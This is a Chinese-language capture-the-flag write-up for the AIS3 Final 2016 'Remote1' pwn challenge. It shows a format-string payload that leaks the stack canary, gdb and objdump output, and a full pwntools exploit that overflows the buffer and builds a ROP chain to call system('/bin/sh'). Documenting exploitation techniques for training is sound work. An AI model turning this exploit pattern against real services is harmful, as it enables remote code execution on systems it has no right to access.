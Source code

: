 Title: [AIS3 FINAl 2016] Remote1
Date: 2016-08-28 20:33
Tags: AIS3, CTF, pwn, Format String, GOT Hijacking
Author: Naetw
Summary: A write-up for AIS3 FINAL 2016 Remote1

## Description

> 人生第一次比賽解題，來記錄一下
> 
> 這題應該要更快解決的 Orz，一開始走向比較麻煩的方向，直到 **@Brainsp8210** First Blood <(\_ \_)>

## Exploit

拿到題目就先執行看看，看到了 echo service，直覺是想到 **Format String**，於是送個 `%lx %lx %lx %lx`，確認是 **Format String**，但是一開始想直接去做 **GOT Hijack**，但是最後一個 byte 一直失敗QQ，不夠熟悉，該多練練，後來看到同學 First Blood，於是轉戰別的方向。

```bash
$ objdump -d pwn1 |less
```

看到了 `0000000000400620 <__stack_chk_fail@plt>:` 應該是可以對他進行 **Stack Overflow** 於是送了一坨 AAAAA 給他，`quit` 後跳出

```bash
*** stack smashing detected ***: ./pwn1 terminated
[1]    1249 segmentation fault  ./pwn1
```

因為 **Stack Canary** 會被放在 stack 上，於是利用 **Format String** 洩漏 stack 上的值，先送一段 payload

**Payload:**

`AAAAAAAA %lx %lx %lx %lx %lx %lx %lx %lx`

**Output:**

`AAAAAAAA 40095f 0 71 7f0cb954e700 1e 23 29b9356620 4141414141414141`

確認了如果要 dump 出 Buffer 的第一格需要 `%8$lx`，用 [Qira](https://github.com/BinaryAnalysisPlatform/qira) 或是 gdb 追一下程式，加上 `objdump`

```
40083e:       48 8b 4d f8             mov    rcx,QWORD PTR [rbp-0x8]
400842:       64 48 33 0c 25 28 00    xor    rcx,QWORD PTR fs:0x28
400849:       00 00
40084b:       74 05                   je     400852 <echo+0xb0>
40084d:       e8 ce fd ff ff          call   400620 <__stack_chk_fail@plt>
```

**Stack Frame:**

```
(gdb) x/gx $rbp
0x7fffffffea00: 0x00007fffffffea10

0x7fffffffe9e0: 0x4141414141414141
0x7fffffffe9e8: 0x00007ffff7a9000a
0x7fffffffe9f0: 0x0000000000000000
0x7fffffffe9f8: 0x0a2281f1d38aaf00
0x7fffffffea00: 0x00007fffffffea10
0x7fffffffea08: 0x000000000040088a
0x7fffffffea10: 0x00000000004008a0
0x7fffffffea18: 0x00007ffff7a58730
```

透過 **Stack Frame** 我們知道 **Stack Canary** 可用 `%11$lx` dump 出來，找到 **Canary** 的值後，等等 **Overflow** 就可以蓋上同樣的值，在結束 **echo** 時就不會呼叫 `__stack_chk_fail`，繞過 **Stack Guard**！！

在 `ret` 時 `rsp` 所在的位置覆蓋成 `pop rdi ; ret` 的 gadget，gadget 可利用 `ROPgadget` 去找，讓 `rdi` 的值為指向 `/bin/sh` 的字串位置，接著 `call system`，即可開啟 `Shell`

## Final Exploit:

```python
#!/usr/bin/env python

from pwn import *

# local
r = remote('127.0.0.1', 4000)
# remote
#r = remote('final.ais3.org', 32164)

system = 0x400630

pop_rdi_ret = 0x400903

sh = 0x400928

r.sendline('%11$lx') # leak stack canary
r.recvline()
r.recvline()

x = r.recvline()
y = x[x.find('prompt>'):]

canary = '0x' + y[8:]
canary = int(canary, 16)

r.sendline('a'*24 + p64(canary) + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(sh) + p64(system))

sleep(0.1)

r.sendline('quit')

r.interactive()
```
